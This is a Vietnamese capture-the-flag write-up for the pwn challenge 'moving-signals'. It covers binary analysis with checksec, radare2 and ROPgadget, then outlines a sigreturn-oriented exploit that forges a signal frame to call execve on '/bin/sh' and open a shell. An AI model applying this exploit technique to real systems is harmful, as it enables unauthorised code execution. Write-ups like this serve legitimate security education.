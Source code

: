 
# Writeup 0x41414141
#   Author: Quasar
> # Challenge Name : moving-signals

## file challenge:  [moving-signals](https://github.com/19520611/Writeup/blob/main/0x41414141/src/moving-signals/moving-signals?raw=true)

Phân tích cơ bản:

file:
```
$ file moving-signals
moving-signals: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped
```
checksec:
```
$ checksec  moving-signals
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x40000)
    RWX:      Has RWX segments
```
r2:
```
$ r2 moving-signals
[0x00041000]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for objc references
[x] Check for vtables
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[0x00041000]> afl
0x00041000    1 24           entry0
[0x00041000]> pdf entry0
            ;-- section..shellcode:
            ;-- segment.LOAD1:
            ;-- .shellcode:
            ;-- __start:
            ;-- _start:
            ;-- rip:
┌ 24: entry0 ();
│           0x00041000      48c7c7000000.  mov rdi, 0                  ; [01] -rwx section size 26 named .shellcode
│           0x00041007      4889e6         mov rsi, rsp
│           0x0004100a      4883ee08       sub rsi, 8
│           0x0004100e      48c7c2f40100.  mov rdx, 0x1f4              ; 500
│           0x00041015      0f05           syscall
└           0x00041017      c3             ret
[0x00041000]>
```
Qua công cụ r2 ta quan sát được luồng thực thi chính của chương trình. Quan sát các gadget.

Ropgadget:
```
 ROPgadget  --binary moving-signals
Gadgets information
============================================================
0x0000000000041013 : add byte ptr [rax], al ; syscall
0x000000000004100f : mov edx, 0x1f4 ; syscall
0x000000000004100e : mov rdx, 0x1f4 ; syscall
0x000000000004100d : or byte ptr [rax - 0x39], cl ; ret 0x1f4
0x000000000004100c : out dx, al ; or byte ptr [rax - 0x39], cl ; ret 0x1f4
0x0000000000041018 : pop rax ; ret
0x0000000000041017 : ret
0x0000000000041010 : ret 0x1f4
0x0000000000041015 : syscall

Unique gadgets found: 9
```
Vì có gadget ```pop rax ; ret``` nên ta có thể điều khiển được $rax. Mình sẽ sử dụng syscall rt_sigreturn ($rax = 0xf)
  
Ta sẽ đưa các fake frame vào stack và làm cho rt_sigreturn gọi syscall với các fake frame của ta. Fake frame:
- rax = 0x3b (sys_execve)
- rdi = 0x41250
- rip = 0x41015 (syscall)

Tìm địa chỉ của ```/bin/sh``` trong chương trình:
```
pwndbg> search /bin/sh
moving-signals  0x41250 0x68732f6e69622f /* '/bin/sh' */
pwndbg>
```
Đã có đầy đủ payload của chúng ta sẽ như sau: payload = b'A'*8 + pop_rax + 0xf +syscall + frame.

Get flag:

### ![screenshot](https://github.com/19520611/Writeup/blob/main/0x41414141/img/moving.PNG)








 

